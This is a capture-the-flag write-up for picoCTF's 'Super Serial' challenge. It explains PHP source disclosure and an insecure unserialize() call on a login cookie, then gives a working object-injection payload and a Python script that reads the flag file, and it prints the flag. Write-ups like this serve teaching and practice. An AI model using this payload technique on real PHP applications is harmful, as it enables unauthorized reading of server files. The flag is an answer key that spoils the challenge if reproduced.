






## Super Serial



We are provided with a simple login page.  


The challenge hint also tells us the location of the flag file.  


The webpage has a `robots.txt` file that reveals an `admin.phps` file. Although the file cannot be found on the webpage, this does prove that the website allows PHP source code viewing.  



Looking at the webpage source, we can see that it does indeed use an `index.php` to handle the login.  



`index.phps` doesn't show anything particularly interesting, but it does contain references to `cookie.php` and `authentication.php`.  



`authentication.phps` contains a class `access_log` which provides arbitrary file reading.  



`cookie.phps` reveals the main vulnerability of the server. The `unserialize()` function is used to decode the `login` cookie, but no security checks are implemented, making it vulnerable to object injection.  



We can leverage the `access_log` class to read `../flag`, then serialize the object.  

On submission, `cookie.php` will deserialise our malicious cookie into an `access_log` object and display it. It will then attempt to access the `is_guest()` and `is_admin()` attributes, throwing an error and causing the webpage to display the flag contents, since `__toString()` of `access_log` returns the contents of the file being read.  

```php
class access_log
{
	public $log_file;
}

$obj = new access_log();
$obj->log_file = "../flag";

echo serialize($obj)
```

We can then submit our payload to the server using Python and retrieve the flag.  

```python
import requests
import base64
import re

url = "http://mercury.picoctf.net:25395"

payload = 'O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}'

res = requests.get(f'{url}/authentication.php', cookies={ 'login': base64.b64encode(payload.encode()).decode()})
print(re.findall(r'(picoCTF{.+})', res.text)[0])
```

Flag: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`